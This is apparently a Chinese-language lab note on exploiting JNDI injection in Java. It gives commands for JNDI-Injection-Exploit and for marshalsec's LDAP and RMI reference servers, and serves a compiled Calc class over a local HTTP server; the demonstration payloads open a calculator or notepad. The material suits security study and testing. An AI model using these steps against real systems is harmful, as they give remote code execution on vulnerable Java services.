








# JNDI 漏洞

## rmi



```
Java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc"
```



运行弹出计算器


## DNS





## ldap

跟 rmi同理


## marshalsec工具使用

创建脚本



编译成class  

```
javac .\Calc.java
```




在class文件目录下开启http 服务 端口 8888

```
python -m http.server 8888
```

打开工具

```
2、使用利用工具生成调用协议（rmi,ldap）
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://0.0.0.0/#Test
```

修改监听网址

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Calc
```

运行弹出记事本



